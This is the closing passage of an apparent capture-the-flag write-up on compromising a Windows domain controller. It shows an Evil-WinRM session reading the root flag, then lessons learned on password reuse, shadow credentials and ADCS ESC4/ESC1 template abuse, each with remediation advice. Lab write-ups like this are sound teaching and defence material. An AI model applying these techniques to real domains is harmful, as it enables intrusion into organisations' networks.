*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
9dab1cad...
```

The Domain Controller is fully compromised!

---

## Lessons Learned

### 1. Hardening Service Account Password Policies
The initial foothold and pivot was possible due to password reuse across service accounts and regular users (e.g., `sql_svc` and `ryan`).
- **Remediation**: Implement distinct, high-entropy passwords for all service accounts. Rotate service account passwords regularly and restrict their use to specific hosts using Group Policy or Managed Service Accounts (gMSAs).

### 2. Shadow Credentials Mitigation
The takeover of `ca_svc` was achieved by exploiting the `msDS-KeyCredentialLink` attribute.
- **Remediation**: Monitor for changes to the `msDS-KeyCredentialLink` attribute on high-privilege or sensitive accounts (Event ID 5136). Implement Tiered Administration models to prevent Tier 2/1 users (like `ryan`) from holding write permissions over Tier 0 service accounts (like `ca_svc`).

### 3. ADCS Certificate Template Hardening (ESC4 & ESC1)
Vulnerable write permissions on certificate templates (ESC4) allow attackers to modify templates to enable client authentication and enrollee-supplied SANs (ESC1).
- **Remediation**: Regularly audit permissions on all certificate templates. Restrict Write Dacl / Write Owner permissions to Domain Admins and Enterprise Admins. Ensure the `ENROLLEE_SUPPLIES_SUBJECT` flag is disabled on templates that allow Client Authentication.

